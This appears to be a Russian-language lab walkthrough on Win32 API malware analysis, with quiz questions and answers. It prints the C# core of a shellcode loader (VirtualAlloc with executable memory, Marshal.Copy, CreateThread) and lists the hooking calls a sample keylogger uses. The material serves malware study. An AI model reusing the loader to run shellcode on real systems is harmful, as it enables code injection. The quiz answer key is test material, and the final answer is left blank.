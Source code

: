 Используя  документацию Windows API  и контекст приведенного выше фрагмента, начните анализировать кейлоггер, 
используя вопросы 1–4 в качестве руководства для работы с образцом.  

Запуск шеллкода
Чтобы начать анализировать загрузчик шеллкода, нам снова нужно собрать, какие вызовы API он реализует. Этот процесс 
должен выглядеть идентично предыдущему исследованию случая. Ниже приведен фрагмент определений p/invoke исходного 
кода образца вредоносного ПО.  
```commandline
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
```
Ниже приведено объяснение каждого вызова API и его соответствующего использования.

Теперь мы проанализируем, как шелл-код записывается в память и выполняется из нее.
```commandline
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```
Давайте разберемся с целью и процедурой выполнения шелл-кода, а затем назначим им соответствующий вызов API из 
приведенного выше фрагмента. 

Используя документацию Windows API и контекст приведенного выше фрагмента, начните анализировать загрузчик шелл-кода,
используя вопросы 5–8 в качестве руководства для работы с примером.   

### Ответьте на вопросы ниже
Какой вызов Win32 API используется для получения псевдодескриптора нашего текущего процесса в образце кейлоггера?
```commandline
GetCurrentProcess
```
Какой вызов Win32 API используется для установки перехвата на наш текущий процесс  в примере кейлоггера ?
```commandline
SetWindowsHookEx
```
Какой вызов Win32 API используется для получения дескриптора из псевдодескриптора  в образце кейлоггера ?
```commandline
GetModuleHandle
```
Какой вызов Win32 API используется для сброса перехвата в нашем текущем процессе  в примере кейлоггера ?
```commandline
UnhookWindowsHookEx
```
Какой вызов Win32 API используется для выделения памяти под размер шелл-кода  в примере средства запуска шелл-кода ?
```commandline
```
